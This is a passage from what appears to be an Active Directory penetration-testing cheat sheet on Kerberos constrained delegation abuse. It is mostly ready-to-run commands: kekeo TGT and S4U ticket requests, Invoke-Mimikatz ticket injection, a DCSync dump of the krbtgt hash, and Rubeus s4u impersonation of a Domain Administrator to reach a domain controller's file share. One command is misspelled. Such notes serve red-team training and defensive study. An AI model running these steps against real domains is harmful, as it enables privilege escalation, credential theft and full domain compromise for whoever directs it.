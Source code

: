 ```console
.\kekeo.exe

tgt::ask /user:domain-here /domain:domain.local /rc4:rc4-hash-here
```

### <span style="color:#F1C232">3. Request a TGS </span>

```console
.\kekeo.exe

tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">4. Inject the ticket</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS.kirbi"'
```

### <span style="color:#F1C232">5. Execute DCSync (extra)</span>

```powershell
nvoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### <span style="color:#F1C232">6. We can access the file system</span>

```powershell
ls \\dc-name-here\C$
```

## <span style="color:lightgreen">Using Rubeus.exe - Users</span>

### <span style="color:#F1C232">1. We request a TGT for userX using its NTLM hash to get a TGS for userX as the Domain Administrator - Administrator. Then the TGS used to access the service specified in the /msdsspn parameter (which is the filesystem on dc-child)</span>

```powershell
.\Rubeus.exe s4u /user:userX /rc4:rc4-hash-here /impersonateuser:Administrator /msdsspn:"CIFS/dc-child.child-domain.root-domain.LOCAL" /ptt
```

### <span style="color:#F1C232">2. Check if TGS is injected</span>
